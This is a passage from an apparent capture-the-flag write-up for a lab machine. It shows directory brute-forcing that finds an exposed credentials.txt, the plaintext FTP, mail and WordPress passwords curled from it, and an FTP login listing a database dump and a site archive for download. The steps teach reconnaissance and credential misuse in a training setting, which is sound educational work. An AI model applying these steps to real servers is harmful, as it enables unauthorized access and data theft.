 ```
DirBuster 1.0-RC1 - Report
http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project
Report produced on Tue May 05 04:23:36 EDT 2020
--------------------------------

http://10.10.10.187:80
--------------------------------
Directories found during testing:

Dirs found with a 403 response:

/admin-dir/

--------------------------------
Files found during testing:

Files found with a 200 responce:

/admin-dir/contacts.txt
/admin-dir/credentials.txt
```

In `credentials.txt`, we find the FTP credentials.

```
$ curl http://10.10.10.187/admin-dir/credentials.txt
[Internal mail account]
w.cooper@admirer.htb
fgJr6q#S\W:$P

[FTP account]
ftpuser
%n?4Wz}R$tTF7

[Wordpress account]
admin
w0rdpr3ss01!
```

## FTP Exfiltration

With the FTP credentials, let's log in and review the files.

```
$ ftp 10.10.10.187
Connected to 10.10.10.187.
220 (vsFTPd 3.0.3)
Name (10.10.10.187:kali): ftpuser
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0            3405 Dec 02 21:24 dump.sql
-rw-r--r--    1 0        0         5270987 Dec 03 21:20 html.tar.gz
```
